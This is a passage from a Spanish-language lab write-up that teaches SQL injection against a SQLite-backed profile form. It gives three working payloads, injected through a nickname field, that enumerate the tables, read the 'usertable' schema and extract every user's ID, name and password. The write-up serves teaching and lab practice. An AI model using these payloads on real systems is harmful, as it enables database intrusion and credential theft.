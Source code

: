 <div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      SQL
      <button class="copy-button" onclick="copyToClipboard()">Copiar</button>
    </div>
    <pre><code class="language-sql">',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='</code></pre>
  </div>
</div>

Como resultado, tenemos que obtenemos el nombre de la única tabla que existe en la base de datos:

<div style="text-align: center; ">
    <img src="../assets/images/Labs/IntroSQLi/Untitled 3.png" alt="Untitled" onclick="openModal(this.src)" />
</div>

Ahora podemos obtener todos las columnas que componen a dicha tabla:

<div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      SQL
      <button class="copy-button" onclick="copyToClipboard()">Copiar</button>
    </div>
    <pre><code class="language-sql">',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name = 'usertable'),email='</code></pre>
  </div>
</div>

Esta consulta nos devuelve todos las columnas de la tabla usertable:

<div style="text-align: center; ">
    <img src="../assets/images/Labs/IntroSQLi/Untitled 4.png" alt="Untitled" onclick="openModal(this.src)" />
</div>

Conociendo el nombre de las columnas, podemos obtener la información que queremos de la base de datos.

Por ejemplo, si queremos obtener el profileID ,name y password de los usuarios podemos ejecutar la siguiente consulta:

<div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      SQL
      <button class="copy-button" onclick="copyToClipboard()">Copiar</button>
    </div>
    <pre><code class="language-sql">',nickname = (SELECT group_concat(profileID || "," || name || "," ||password || ":") FROM usertable), email='</code></pre>
  </div>
</div>

Resultado de la consulta:
